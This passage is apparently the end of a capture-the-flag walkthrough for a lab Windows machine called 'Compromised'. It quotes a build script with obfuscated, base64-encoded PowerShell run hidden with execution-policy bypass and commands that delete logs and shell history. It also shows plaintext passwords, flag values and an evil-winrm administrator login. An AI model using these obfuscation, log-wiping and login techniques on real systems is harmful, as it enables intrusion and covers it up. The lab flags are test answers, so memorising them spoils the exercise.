                                          Set-Content -path C:\Users\$user\Documents\WindowsPowerShell\profile.ps1 -value $snippet
                                          attrib +h C:\Users\$user\Documents\WindowsPowerShell\profile.ps1

                                          ## Priviledge Escalation
                                          Write-Host 'Staging our privileged escalation component'
                                          # Plain text password
                                          [System.String]$Content = $adminpass

                                          # ByteArray
                                          [System.Text.Encoding]$Encoding = [System.Text.Encoding]::ASCII
                                          [byte[]]$ByteArray = $Encoding.GetBytes($Content)

                                          # GzipStream
                                          [System.IO.Stream]$MemoryStream = New-Object System.IO.MemoryStream
                                          [System.IO.Stream]$GzipStream = New-Object System.IO.Compression.GzipStream $MemoryStream, ([System.IO.Compression.CompressionMode]::Compress)
                                          $GzipStream.Write($ByteArray, 0, $ByteArray.Length)
                                          $GzipStream.Close()
                                          $MemoryStream.Close()
                                          [byte[]]$GzipStream = $MemoryStream.ToArray()

                                          # Stream Encoder
                                          [System.String]$EncodedGzipStream = [System.Convert]::ToBase64String($GzipStream)

                                          # Decoder Encoder
                                          [System.String]$Decoder = '$Owned = @();$Owned += {$Decoded = [System.Convert]::FromBase64String("<Base64>")};$Owned += {[string]::join('''', (
                                          (83,116,97,114,116,45,83,108,101,101,112,32,45,83,101,99,111,110,100,115,32,53) |%{ ( [char][int] $_)})) | & ((gv "*mdr*").name[3,11,2]-join'''')};$Owned += {if($env:computername -eq "compromised")
                                          {exit}};$Owned += {[string]::join('''', ( (105,102,32,40,116,101,115,116,45,99,111,110,110,101,99,116,105,111,110,32,56,46,56,46,56,46,56,32,45,81,117,105,101,116,41,32,123,101,120,105,116,125) |%{ (
                                          [char][int] $_)})) | & ((gv "*mdr*").name[3,11,2]-join'''')};$Owned += {[string]::join('''', ( (105,102,32,40,36,111,119,110,101,100,91,50,93,46,84,111,83,116,114,105,110,103,40,41,32,45,110,101,32,39,105,10
                                          2,40,36,101,110,118,58,99,111,109,112,117,116,101,114,110,97,109,101,32,45,101,113,32,34,99,111,109,112,114,111,109,105,115,101,100,34,41,32,123,101,120,105,116,125,39,41,32,123,101,120,105,116,125,32,69,108
                                          ,115,101,32,123,36,109,115,32,61,32,40,78,101,119,45,79,98,106,101,99,116,32,83,121,115,116,101,109,46,73,79,46,77,101,109,111,114,121,83,116,114,101,97,109,40,36,68,101,99,111,100,101,100,44,48,44,36,68,101
                                          ,99,111,100,101,100,46,76,101,110,103,116,104,41,41,125) |%{ ( [char][int] $_)})) | & ((gv "*mdr*").name[3,11,2]-join'''')};$Owned += {[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64St
                                          ring("KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAWgBpAHAAUwB0AHIAZ
                                          QBhAG0AKAAkAG0AcwAsACAAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgByAGUAYQBkAHQAbwBlAG4AZAAoACkA")) |
                                          iex};$Owned | % {$_|iex}'
                                          [System.String]$Decoder = $Decoder -replace "<Base64>", "$EncodedGzipStream"
                                          [byte[]]$bytes = [System.Text.Encoding]::Unicode.GetBytes($Decoder)
                                          [System.String]$EncodedCommand = [Convert]::ToBase64String($bytes)

                                          # Plant our command in the logs
                                          Start-Process powershell -argumentlist "-NoP -NonI -W Hidden -Exec Bypass -Enc $EncodedCommand"

                                          ## Local and Proof Flags
                                          Write-Host "Creating Flags"
                                          New-Item -path "C:\Users\Administrator\Desktop\proof.txt" -ItemType File
                                          Set-Content -path "C:\Users\Administrator\Desktop\proof.txt" "C2E7EA127C0445D64E2123D223E77545"
                                          New-Item -path "C:\Users\$user\Desktop\local.txt" -ItemType File
                                          Set-Content -path "C:\Users\$user\Desktop\local.txt" "216E3F48A242732F9ECE14CBC76A9334"
                                          icacls "C:\Users\$user\Desktop\local.txt" /deny "guest:F" /t

                                          ## Cleaning Up
                                          Write-Host "Purging leftover files"
                                          Remove-Item -path (Get-Item $MyInvocation.MyCommand.Path) -Force
                                          Remove-Item -path C:\users\$user\desktop\run.ps1
                                          Remove-Item -path C:\inetpub\logs\LogFiles\* -recurse -ErrorAction SilentlyContinue
                                          Remove-Item -path "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent\*" -Recurse -Force -ErrorAction SilentlyContinue
                                          Remove-Item -path "C:\Users\*\AppData\Local\Temp\*" -Recurse -Force -ErrorAction SilentlyContinue
                                          Remove-Item -path "C:\`$Recycle.Bin\*" -Recurse -Force -ErrorAction SilentlyContinue
                                          Remove-Item -path "C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force -ErrorAction SilentlyContinue

                                          ## Done
                                          Write-Host ''
                                          Write-Host 'The vulnerable machine "Compromised" has been built and can be rebooted at any time.'


                                          ScriptBlock ID: 124d9ae7-fc7b-40d3-b4b3-fc051780c875
                                          Path: C:\Users\Administrator\Desktop\build-script.ps1
```

Oops, we likely managed to find an uninteded solution from an older setup script that contain both the passwords and the flags in clear text.

```powershell
# <---snip--->
                                          $user = 'scripting'
                                          $userpass = 'FriendsDontLetFriendsBase64Passwords'
                                          $adminpass = 'TheShellIsMightierThanTheSword!'
# <---snip--->
                                          ## Local and Proof Flags
                                          Write-Host "Creating Flags"
                                          New-Item -path "C:\Users\Administrator\Desktop\proof.txt" -ItemType File
                                          Set-Content -path "C:\Users\Administrator\Desktop\proof.txt" "C2E7EA127C0445D64E2123D223E77545"
                                          New-Item -path "C:\Users\$user\Desktop\local.txt" -ItemType File
                                          Set-Content -path "C:\Users\$user\Desktop\local.txt" "216E3F48A242732F9ECE14CBC76A9334"
                                          icacls "C:\Users\$user\Desktop\local.txt" /deny "guest:F" /t
# <---snip--->
```

The user flag doesn't match what we found earlier so the flags must have been updated.

Let's check if the Admin password is still valid

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Compromised]
└─$ evil-winrm -i $TARGET_IP -u administrator -p 'TheShellIsMightierThanTheSword!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
compromised\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

And it is. We are logged in as Administrator!

### Get the root flag

Finally we can get the root flag

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/3/2025   2:34 AM             34 proof.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type proof.txt
a<REDACTED>8
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

For additional information, please see the references below.

## References

- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [Evil-WinRM - GitHub](https://github.com/Hackplayers/evil-winrm)
- [Evil-WinRM - Kali Tools](https://www.kali.org/tools/evil-winrm/)
- [Get-WinEvent - Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Diagnostics/Get-WinEvent?view=powershell-5.1)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [Internet Information Services - Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)
- [Measure-Object - Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/measure-object?view=powershell-5.1)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [Remote procedure call - Wikipedia](https://en.wikipedia.org/wiki/Remote_procedure_call)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [Windows Remote Management - Wikipedia](https://en.wikipedia.org/wiki/Windows_Remote_Management)
